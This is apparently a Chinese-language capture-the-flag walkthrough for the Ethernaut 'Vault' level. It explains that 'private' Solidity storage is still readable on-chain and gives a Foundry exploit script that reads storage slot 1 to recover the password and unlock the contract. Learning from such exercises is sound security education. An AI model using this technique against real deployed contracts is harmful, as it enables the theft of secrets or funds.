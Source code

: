 # Level 8 - Vault

## 題目
[Vault](https://ethernaut.openzeppelin.com/level/0xB7257D8Ba61BD1b3Fb7249DCd9330a023a5F3670)

### 通關條件
打開金庫(Vault)來通過這一關ㄅ！
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
## 解題
這題是打開金庫，就是把 `locked` 變成 `false` 就可以了
只要在合約 13 行的 `unlock(bytes32 _password)`輸入正確的密碼，就可以改變`locked`的值。所以只要取得 `password` 的值就可以解開這題。
智能合約的特色就是所有的資料和操作都會上鏈。雖然 `password` 被宣告為 `private`，但依然會被存在鏈上。所以我們要算出他被儲存在合約的哪裡。

在 Solidity 中，合約的**狀態變數**都會被存在 storage slot 中，storage slot 會被實際寫入到區塊鏈上，每個合約可以有 $2^{256}$ 個 slot，每個 slot 可以存放 256 bit（32 bytes）。今天如果兩個變數宣告的長度都沒有超過 32 bytes 會被放入同一個 slot 中。

>[!Tip]
> Solidity 變數分為三種：
> 1. 狀態變數 state variable：儲存在鏈上，在 function 外、合約內宣告
> 2. 局部變數 local variable：宣告在 function 內，function 跑完就被釋放
> 3. 全域變數 global variable：預留關鍵字，不用宣告可以直接使用

關於 storage slot 可以看以下幾篇有更詳細的解釋：
- [WTF Solidity极简入门: 5. 变量数据存储和作用域 storage/memory/calldata](https://github.com/AmazingAng/WTF-Solidity/tree/main/05_DataStorage)
- [Understanding Solidity’s Storage Layout And How To Access State Variables](https://medium.com/@flores.eugenio03/exploring-the-storage-layout-in-solidity-and-how-to-access-state-variables-bf2cbc6f8018)

這題合約中的變數有兩個，分別是`bool locked` 和 `bytes32 password`。按照儲存規則，slot 會長這樣：

| slot idx | (type)Variable | 
| ------| --------        |
| 0     | (bool) locked    |
| 1     | (bytes32) password|

所以我們要讀取 slot 1 取得 `password`，再呼叫 `unlock(bytes32 _password)` ，關於讀取的方法我是用 [Foundry 的 vm.load](https://book.getfoundry.sh/cheatcodes/load) 完成，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/08_Vault.sol";

contract ExploitScript is Script {
    Vault public level08 = Vault(your_challenge_address);

    function run() external {
        vm.startBroadcast();

        bytes32 password = vm.load(address(level08), bytes32(uint256(1)));
        level08.unlock(password);

        vm.stopBroadcast();
    }
}
```
###